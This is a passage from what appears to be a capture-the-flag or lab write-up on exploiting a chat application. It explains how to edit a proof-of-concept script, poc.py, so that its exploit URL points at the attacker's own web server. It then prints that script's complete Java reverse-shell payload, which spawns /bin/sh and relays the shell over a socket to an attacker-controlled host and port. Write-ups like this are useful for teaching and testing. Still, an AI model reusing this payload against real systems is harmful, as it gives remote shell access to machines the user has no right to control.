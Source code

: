 The localhost servers are already ported, but as you can see, the chat application is still being redirected to localhost.
Upon inspection of `poc.py`, we see that this line is responsible:

 
   `  url = "http://{}:{}/#Exploit".format(userip, lport)`  
So we can change that to our Web server url (the one running 8000 on local host.)
 
    ` url ="http://{}/#Exploit".format("<WEB SERVER URL HERE>")`

Upon further inspection,  we also realise that the Java exploit program is enclosed in multiline quotes `"""` as `program`
We can modify this to our liking. 
Original code (you should get this from the GitHub PoC):
```python
program = """
import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import java.net.Socket;
public class Exploit {
    public Exploit() throws Exception {
        String host="%s";
        int port=%d;
        String cmd="/bin/sh";
        Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
        Socket s=new Socket(host,port);
        InputStream pi=p.getInputStream(),
            pe=p.getErrorStream(),
            si=s.getInputStream();
        OutputStream po=p.getOutputStream(),so=s.getOutputStream();
        while(!s.isClosed()) {
            while(pi.available()>0)
                so.write(pi.read());
            while(pe.available()>0)
                so.write(pe.read());
            while(si.available()>0)
                po.write(si.read());
            so.flush();
            po.flush();
            Thread.sleep(50);
            try {
                p.exitValue();
                break;
            }
            catch (Exception e){
            }
        };
        p.destroy();
        s.close();
    }
}
""" % (userip, lport)
```
